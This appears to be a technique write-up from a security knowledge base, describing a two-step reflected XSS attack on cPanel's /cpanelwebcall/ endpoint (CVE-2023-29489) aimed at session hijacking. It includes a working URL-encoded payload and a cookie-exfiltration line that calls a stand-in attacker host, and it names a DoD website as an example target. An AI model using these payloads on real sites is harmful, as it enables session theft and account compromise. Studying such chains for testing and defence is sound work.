

# Reflected XSS in cPanel Webcall Endpoint for Session Hijacking

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in an outdated cPanel application hosted on a target website, allowing arbitrary JavaScript execution to steal cookies or hijack sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform with cPanel service running an outdated version (pre-CVE-2023-29489 patch)
- Accessible HTTP endpoint at /cpanelwebcall/
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Publicly accessible target website
- No authentication required for payload reflection, but authenticated victim session amplifies impact for cookie theft
- Network access to the target's domain

## Detailed Attack Procedures

### Step 1: Access cPanel Webcall with Malicious Payload
procedure: [[procedures/Access-cPanel-Webcall-with-Malicious-Payload]]

**Objective**: Craft and deliver a URL that injects a malicious JavaScript payload into the cPanel webcall endpoint, triggering reflection without sanitization.

**Instructions**: Construct a URL appending a URL-encoded XSS payload to the /cpanelwebcall/ path. For testing, use a simple payload like an image onerror handler to execute prompt(1). Navigate to the URL in a browser targeting the vulnerable site.

Example payload construction:

```bash
# No command-line tool needed; manually craft URL
# Base: http://target.com/cpanelwebcall/
# Payload: 
# Encoded: %3Cimg%20src=x%20onerror=%22prompt(1)%22%3E
# Full URL: http://target.com/cpanelwebcall/%3Cimg%20src=x%20onerror=%22prompt(1)%22%3Eaaaaaaaaaaaa
```

Load the URL in a browser to inject the payload.

**Expected Output**: The endpoint reflects the payload into the response, embedding the script in the page source.

**Success Indicators**:
- Payload appears unescaped in the browser's developer tools (View Page Source)
- No immediate errors from the server

### Step 2: Observe XSS Execution and Impact
procedure: [[procedures/Observe-XSS-Execution-and-Impact]]

**Objective**: Confirm JavaScript execution upon payload reflection, demonstrating potential for cookie theft or session hijacking in an authenticated context.

**Instructions**: Load the crafted URL in a browser. If the victim is authenticated to cPanel, the payload executes in the context of the session, allowing access to cookies via document.cookie or other DOM manipulations.

For demonstration, the prompt(1) payload will display an alert box. In a real attack, replace with a payload to exfiltrate data, e.g., sending cookies to an attacker-controlled server.

Example advanced payload (URL-encoded):

```bash
# Payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
# This would send cookies to attacker server upon execution
```

Monitor network traffic or the prompt to verify execution.

**Expected Output**: JavaScript alert/prompt appears, or network request to attacker server if using exfiltration payload.

**Success Indicators**:
- Alert box or console log confirms execution
- In authenticated session, cookies can be accessed via browser console: document.cookie
- Potential for full session hijacking if CSRF tokens or other session data are captured

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of XSS payload via cPanel webcall endpoint
2. Arbitrary JavaScript execution in victim's browser context
3. Capability to steal session cookies, leading to account compromise on a high-value target like a DoD website

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
